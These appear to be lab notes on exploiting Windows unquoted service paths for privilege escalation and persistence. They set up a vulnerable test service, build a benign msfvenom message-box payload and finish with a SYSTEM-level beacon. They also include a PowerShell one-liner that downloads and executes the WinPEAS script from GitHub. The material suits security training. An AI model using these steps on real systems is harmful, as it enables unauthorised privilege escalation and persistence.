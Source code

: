 # UNQUOTED SERVICE PATH

# SUMMARY

Adversaries may execute their own malicious payloads by hijacking vulnerable file path references. Adversaries can take advantage of paths that lack surrounding quotations by placing an executable in a higher level directory within the path, so that Windows will choose the adversary's executable to launch.

Service paths and shortcut paths may also be vulnerable to path interception if the path has one or more spaces and is not surrounded by quotation marks (e.g., C:\unsafe path with space\program.exe vs. "C:\safe path with space\program.exe"). [2] (stored in Windows Registry keys) An adversary can place an executable in a higher level directory of the path, and Windows will resolve that executable instead of the intended executable. For example, if the path in a shortcut is C:\program files\myapp.exe, an adversary may create a program at C:\program.exe that will be run instead of the intended program.

This technique can be used for persistence if executables are called on a regular basis, as well as privilege escalation if intercepted executables are started by a higher privileged process.

# MITRE

![screenshot](./images/token_unquoted.jpg)

- AlwaysInstallElevated (MSI)
  
- Unquoted Service Path (Services)
  - Requires missing "quotes"
  - and whitespaces in the path
  - write permission in the (sub)folder that holds the service binary

To exploit, the exe needs to be named after the directory it's in, i.e:

---  

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services

- Create folders "C:\MyPrograms\Vulnerable Service\"
- create pingservice in vs2019
- copy pingservice as "VulnService.exe" to this path

```powershell
sc create VulnService binPath= "C:\MyPrograms\Vulnerable Service\VulnService.exe"
sc config VulnService obj= ".\Threatadmin" password= "Threathunt25"
sc qc VulnService
sc start VulnService
```

When there are spaces in a service path, windows will try to find the service as follows:

It will parse "C:\MyPrograms\Vulnerable Service\service.exe" into

- Potential service : "C:\MyPrograms\vulnerable.exe"
- with arguments `Service\service.exe`

By placing a malicious service exe in "C:\MyPrograms\" named `vulnerable.exe`, we'll escalate privileges to NT SYSTEM AUHTORITY (if the service is running with those privileges)

# Generate a simple MSFVenom service payload that pops a text box

On Kali:

```bash
msfvenom -a x64 --platform windows -p windows/x64/messagebox TEXT="Successful Execution :)" TITLE="CrimsonCORE" -f exe-service -o Vulnerable.exe
```

Then drop metasploit payload (renamed to Vulnerable.exe) in C:\MyPrograms.

  https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/UnquotedServicePath.md

---

Run the following tools as a regular unprivileged user (`runas /user:student powershell.exe`)

> - [+] SharpUp/Powerup
> - [+] WinPeas

### WINPEAS

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```




> Please note that regular users can't restart services, but after a reboot this will automatically execute.

You'll now have a 2nd beacon with `NT AUHORITY\SYSTEM` privileges.


> ***IMPORTANT***: We achieve not only `Privilege Escalation`, but also `Code-Execution` and `Persistence`!!!